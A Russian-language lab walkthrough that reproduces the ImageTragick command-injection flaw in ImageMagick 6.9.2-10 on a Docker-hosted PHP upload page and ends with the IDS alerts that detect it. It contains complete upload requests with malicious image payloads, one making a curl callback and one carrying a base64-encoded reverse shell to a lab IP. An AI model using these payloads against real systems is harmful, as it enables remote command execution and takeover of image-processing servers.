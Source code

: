 # Imagemagick Command Injection

ImageMagick — это широкий набор инструментов для обработки изображений, многие производители называют эту программу для обработки изображений, включая масштабирование, обрезку, установку водяных знаков, преобразование формата и многого другого. Однако некоторые исследователи обнаружили, что когда пользователь переходит к изображению, содержащему «деформированный контент», это может вызвать уязвимости внедрения команд.

Сотрудники внешней безопасности создали для этого веб-сайт: https://imagetragick.com/ с подробным описанием уязвимости и способах её эксплуатации

### Эксплуатация уязвимости

Для запуска PHP-сервера, включающего в себя Imagemagick 6.9.2-10, выполните команду:

```
docker compose up -d
```

После запуска сервера по адресу `http://ваш-ip:8080/` будет доступна страница с возможностью загрузки файлов

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации данной уязвимости нужно отправить POST-запрос с полезной нагрузкой:

```
POST / HTTP/1.1
Host: 10.10.11.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: http://10.10.11.130:8080
Connection: close
Referer: http://10.10.11.130:8080/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 312

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "10.10.11.130:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

Видно, что после его отправки мы получили http-запрос

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

С помощью данной уязвимости мы можем получить обратную оболочку, отправив следующий запрос:

```
POST / HTTP/1.1
Host: 10.10.11.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: http://10.10.11.130:8080
Connection: close
Referer: http://10.10.11.130:8080/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 378

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMTQ1LzQ0NDQgMD4mMQo= | base64 -d | bash`"||id " )'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

\*\*\*

Здесь c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMTQ1LzQ0NDQgMD4mMQo= - это закодированная в base64 полезная нагрузка для получения обратной оболочки

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Сгенерировать свою собственную нагрузку можно на [https://www.revshells.com/](https://www.revshells.com/)

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

\*\*\*

После отправки запроса с созданным пэйлоадом мы можем получить обратную оболочку поднятого контейнера

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
